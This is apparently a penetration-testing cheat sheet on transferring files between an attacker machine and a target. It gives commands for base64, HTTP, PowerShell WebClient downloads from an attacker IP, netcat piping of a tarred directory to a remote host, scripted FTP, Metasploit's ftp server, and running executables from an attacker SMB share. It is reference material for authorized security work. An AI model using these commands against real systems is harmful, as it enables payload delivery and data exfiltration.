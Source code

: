 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## Base 64 (Small file)

```
base64 [file]
```

Echo the base 64 string to a file on your local machine 

```
echo [string] > [string_file]
```

Decode the base 64 file on your local machine back to the file

```
base64 -d [string_file] > [file]
```

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

```
/etc/init.d/apache2 start
```

### Python

By running below, current directory will be accessible over HTTP

```
python -m SimpleHTTPServer [port no]
```

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[ip_address]/[file]','[file dest]')"
```

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## Netcat

### Receiving end
```
nc -l -p 1234 > out.file
```
### Sending end

```
nc -w 3 [destination] 1234 < out.file
```

For faster transfers if both sender and receiver has some basic *nix tools installed, you can compress the file during sending process,

### Receiving end

```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

### Sending end

```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

```
jobs -k [id]
```
**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

```
smbserver.py shareName sharePath 
```

`(e.g. smbserver.py TMP /tmp)`

Check with smbclient to confirm we have got an SMB share up and running

```
smbclient -L [attack machine ip address] --no-pass
```

**On target machine**:

```
net view \\\\[attack machine ip address]
```

Copy file `copy \\[attack machine ip address]\Sharepath .`

Or execute the file directly from SMB `\\[attack machine ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows

